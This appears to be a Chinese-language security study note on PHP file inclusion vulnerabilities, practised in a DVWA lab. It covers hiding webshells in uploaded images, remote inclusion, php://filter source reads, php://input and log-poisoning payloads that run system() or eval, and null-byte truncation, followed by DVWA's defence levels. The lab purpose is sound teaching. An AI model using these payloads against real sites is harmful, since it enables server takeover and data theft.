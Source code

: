 #文件包含类
<br>
* 在PHP程序中出现较多，其他的较少

##文件包含漏洞分类及上传技巧

* 包含漏洞简介：<br>
  包含操作，在大多数web语言中都会提供的功能（比如包含一些跨站、防注入程序等），但PHP对于包含文件所提供的功能太强大、灵活，所以包含漏洞经常出现在PHP语言中，这也就导致出现了一个错误现状，很多初学者认为包含漏洞只出现在PHP语言之中，殊不知在其他语言中可能出现包含漏洞。这也应了一句老话：功能越强大，漏洞就越多。

*  PHP包含漏洞分类<br>
   包含漏洞不是语言的问题，而是人的思维问题！<br>
   PHP中的四个包含文件函数：include() , include_once() , require() 和 require_once() （在源码审计中，一定要留心有没有这四个函数，有的话过滤是不是严格有没有漏洞）。<br>
   下面我们一起来看PHP文件中的包含：
   + 1、本地包含LIF（一般）
   + 2、远程包含RLF，必须要PHP的配置文件PHP.XXX中有allow_url_include = on

###0X00 PHP本包含实例<br>
   * 当任何文件上传成功后，被以上四种PHP包含函数包含后，无论是什么文件格式，都会以PHP格式解析。所以如果在文件中插了木马，这个时候就很危险了。

###0X01 本地包含漏洞与图片结合<br>
   1. 将木马程序加载到图片里面去:
	   + 打开一张正常图片
	   + 随便找一个木马
	   + 使用edjpgcom.exe软件将木马插入到图片中
   2. 将图片上传，一般网站都不会拦截（此时图片还是可以正常打开的）
   3. 通过存在包含漏洞的页面来包含刚上传带一句话木马的图片
   4. ！！！【一定要注意相对路径】，page=../../hackable/uploads/test.jpg

###0X02 PHP远程包含实例
   1. 首先打开C:\php\php-5.2.14-win32\php-apache2handler.ini文件（大家的文件路径不一定是这个，大家一般的路径是php.ini），找到allow_url_include = off这一行，【把off改成on】
   2. 然后找到存在包含漏洞的页面，将包含函数的参数改为远程的一个页面（远程地址），如[page = http://192.168.1.103:8080/index.asp]，能看到直接运行起来了。如果index.asp是一个木马呢或者是一个php的木马页面呢？是不是也能运行起来，很危险了吧。



##文件包含读写文件

###0X03 PHP包含读文件
* 如： http://192.168.2.55:8080/dvwa/vulnerabilities/fi/?page=php://filter/read=convert.base64-encode/resource=x.php , 访问URL，得到经过base64加密后的字符串。经解密还原即可得到x.php。
* 【page(参数)=php://filter/read=convert.base64-encode/resource=xXX.php】有时候需要将read变成大写Read来绕过一些过滤，如sctf的homework
* http的内置协议是php协议php://filter
* 【条件】：服务端一定要有传入参数的过程，不管客户端是以$_GET形式还是$_POST形式提交的数据。

###0X04 PHP包含写文件
*  构造URL: http://192.168.1.55:8080/dvwa/vulnerabilities/fi/?page=php://input ， 并且提交post数据为<?php system('netuser');?>?????【即自己要写入的内容】
*  ！！【注意】：只有allow_url_include为on的时候才可以使用，如果想查看回显结果那必须在C:\php\php-5.2.14-Win32下找到php-apache2handler.ini打开，查找dispaly_funtions=proc-open,oppen.exec.system......（这些都是危险的命令，一定不要打开。因为一般写web程序用不到这些命令，建议直接删掉）删掉sysytem重启Apache。

###0X05 PHP包含日志文件
* 当某个PHP文件存在本地包含漏洞，而却无法上传正常文件，这就意味着有包含漏洞却不能拿来利用，这时攻击者就有可能会利用Apache日志文件来入侵。
* Apache服务器运行后会生成两个日志文件，这两个文件是access.log（访问日志）和（错误日志），Apache的日志文件记录下我们的任何操作，并且写到访问日志文件access.log之中（时间、IP地址）
* 当没有开启远程包含、文件上传时，只能通过包含日志文件了<br>
  (必须要知道当前网页路径和日志的默认路径，然后来构造)
  1. 先在网址后面接/php<?php eval一句话木马?>访问，日志access.log会记录这一行为
  2. 包含日志文件access.log。【这一步必须要知道当前网页路径和日志的默认路径，然后来构造】
     + 构造：http://......./fi/?page=../../../../Apache-20/logs/access.log
     + 确保当前网站目录的../../../../的最终目录与Apache-20文件夹在一个目录下。
   3. 访问，看到页面上出现一句话木马。菜刀链接即可。

###0X06 截断包含
* 
```
<?php
   if(isset($_GET['page'])){
      include $_GET['page'].".php";
   }else{
      include 'home.php';
   }
?>
```
* 这种方法只适合magic quotes gpc=off的时候，在PHP的老版本中也是存在着一些其他的截断问题，不过现在已经很难见到了，比如：index.php?file=info.txt////......超过一定数据的/。
* 例如： ....../?page=1.jpg%00即可

###0X07 PHP内置协议
* PHP带有很多内置URL风格的封装协议，可用于类似fopen()、copy()、file_exists()和filesize()的文件系统函数
* 具体协议请参照http://www.php.net/manual/zh/wrappers.php
* 图片1

###0X08 PHP远程包含防御
* 以DVWN-File Inclusion为例，安全级别低中高
  + low:

    ```
    <?php $file = $_GET['page']; //The page we wish to display ?>
    ```
  + Medeium:

    ```
    <? php
       $file = $_GET['page']; //The page we wish to display
       //bad input validation
       $file = str_replace("http://"," ", $file); //在传入的$file中搜索http://，替换成空格后，重新赋给$file
       $file = str_replace("https://"," ", $file); // 易绕过，函数str_replace区分大小写，一旦大写等于没做防御
    ?>
   + High:

     ```
     <? php
        $file = $_GET['page']; //The page we wish to display 
        //Only allow include.php
        if ($file != "include.php"){
           echo "ERROR: File not found";
           exit;
        }
      ?>

###运用实例：
* 从网上下载copyright2007-2011 易酷CMS Some Rights Reserved版本到本地测试
* 漏洞利用过程（包含日志文件）： http://www.wooyun.org/bugs/wooyun-2010-061639
* 在本地模拟这些实验
